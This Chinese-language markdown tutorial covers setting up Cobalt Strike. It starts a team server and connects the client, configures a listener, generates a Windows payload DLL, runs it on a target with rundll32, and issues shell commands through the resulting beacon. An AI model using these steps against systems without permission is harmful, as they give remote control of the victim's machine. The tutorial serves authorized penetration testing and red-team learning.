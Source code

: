 # Cobaltstrike

* [CobaltStrike](cobaltstrike.md#CobaltStrike)
  * [简介](cobaltstrike.md#简介)
  * [使用](cobaltstrike.md#使用)
    * [启动](cobaltstrike.md#启动)
    * [上线一个目标](cobaltstrike.md#上线一个目标)

## 简介

Cobalt Strike是一款渗透测试神器，常被业界人称为CS神器。Cobalt Strike已经不再使用MSF而是作为单独的平台使用，它分为客户端与服务端，服务端是一个，客户端可以有多个，可被团队进行分布式协团操作。 Cobalt Strike集成了端口转发、扫描多模式端口Listener、Windows exe程序生成、Windows dll动态链接库生成、java程序生成、office宏代码生成，包括站点克隆获取浏览器的相关信息等。

* 官网地址：https://www.cobaltstrike.com/

目录说明

```
- agscript：拓展应用的脚本。
- c2lint：用于检查profile 的错误和异常。
- teamserver：团队服务器程序。
- cobaltstrike 和 cobaltstrike.jar:客户端程序。因为teamserver文件是通过Java来调用CobaltStrike 的，所以直接在命令行环境中输入第一个文件的内容也能启动Cobalt Strike 客户端 (主要是为了方便操作)。
- logs:日志，包括 Web日志、Beacon日志、截图日志、下载日志、键盘记录日志等。
- datas：用于保存当前TeamServer的一些数据。
- update 和 update.jar：用于更新Cobalt Strike。
```

## 使用

需要先部署TeamServer团队服务器，需要设置当前主机的IP地址和团队服务器的密码

### 启动

* 服务端teamserver

```bash
./teamserver 10.30.0.95 123456
```

![image](img/cobaltstrike-1.png)

* 客户端CobaltStrike

```bash
 ./cobaltstrike
```

![image](img/cobaltstrike-2.png)

填写团队服务器的IP地址、端口号、用户名、密码，这里的用户名任意填写、不能是已经登录的用户名。端口号默认为50050

![image](img/cobaltstrike-3.png)

**连接多个团队服务器**

Cobalt Strike → New Connection

![image](img/cobaltstrike-4.png)

### 上线一个目标

* 首先配置一个监听器：CobaltStrike->Linteners->Add

![image](img/cobaltstrike-5.png)

* 生成一个payload：Attacks->Packages->Windows Executable

![image](img/cobaltstrike-6.png)

* 然后生成的dll上传到目标机器Windows，执行命令：

```
rundll32.exe artifact.dll Start
```

![image](img/cobaltstrike-7.png)

可以看到目标上线成功，右键interact可执行命令

```bash
shell whoami #命令执行需要前面加上shell
```

因为cobaltstrike心跳默认60s，执行命令响应比较慢，可设置sleep加快速度

```
sleep 1
```

## 参考链接

* ffffffff0x团队-1earn的CobaltStrike教程：https://github.com/ffffffff0x/1earn/blob/b068ec66544975f03160088fcca375e95768b198/1earn/Security/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7/CobaltStrike.md
